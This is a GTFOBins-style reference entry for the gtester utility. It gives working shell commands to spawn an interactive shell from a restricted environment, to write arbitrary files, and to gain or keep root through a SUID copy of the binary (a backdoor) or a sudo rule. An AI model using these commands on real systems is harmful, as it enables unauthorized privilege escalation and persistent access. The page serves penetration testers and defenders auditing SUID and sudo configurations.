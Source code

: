 # GTFOBin: gtester

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo '#!/bin/sh' > $TF
echo 'exec /bin/sh -p 0<&1' >> $TF
chmod +x $TF
gtester -q $TF
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

Data to be written appears in an XML attribute in the output file (`<testbinary path="DATA">`).

```
LFILE=file_to_write
gtester "DATA" -o $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which gtester) .

TF=$(mktemp)
echo '#!/bin/sh -p' > $TF
echo 'exec /bin/sh -p 0<&1' >> $TF
chmod +x $TF
sudo gtester -q $TF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp)
echo '#!/bin/sh' > $TF
echo 'exec /bin/sh 0<&1' >> $TF
chmod +x $TF
sudo gtester -q $TF
```